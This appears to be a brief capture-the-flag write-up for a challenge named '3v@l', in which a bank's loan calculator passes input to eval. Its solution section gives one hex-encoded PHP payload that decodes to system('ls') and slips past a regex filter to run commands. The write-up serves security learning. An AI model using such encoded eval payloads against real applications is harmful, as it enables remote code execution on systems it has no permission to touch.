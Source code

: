 
# 3v@l

ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an `eval` function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

Additional details will be available after launching your challenge instance.

1. Bypass regex
2. The flag file is `/flag.txt`
3. You might need encoding or dynamic construction to bypass restrictions.

## Solucion

"\x73\x79\x73\x74\x65\x6d"("\x6c\x73");



## Referencias

- https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/
